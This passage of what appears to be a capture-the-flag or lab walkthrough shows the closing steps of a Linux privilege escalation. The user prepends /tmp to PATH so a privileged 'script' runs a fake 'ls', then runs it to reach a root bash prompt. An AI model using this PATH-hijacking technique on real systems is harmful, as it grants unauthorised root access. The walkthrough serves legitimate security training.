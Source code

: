 **Note, this will cause you to open a bash prompt every time you use ***"ls"***. If you need to use ***"ls"*** before you finish the exploit, use ***"/bin/ls"*** where the real ***"ls"*** executable is.**

**Once you've finished the exploit, you can exit out of root and use ***"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:$PATH"*** to reset the PATH variable back to default, letting you use ***"ls"*** again!**

```bash
user5@polobox:/tmp$ export PATH=/tmp:$PATH
```

No answer needed

**#7 Now, change directory back to user5's home directory.**

```bash
user5@polobox:/tmp$ cd ~
user5@polobox:~$ 
```

No answer needed

**#8 Now, run the "script" file again, you should be sent into a root bash prompt! Congratulations!**

```bash
user5@polobox:~$ ./script 
Welcome to Linux Lite 4.4 user5
 
Saturday 29 August 2020, 16:43:24
Memory Usage: 340/1991MB (17.08%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
root@polobox:~#
```
No answer needed

# [Task 10] Expanding Your Knowledge

**#1 Well done, you did it!**

No answer needed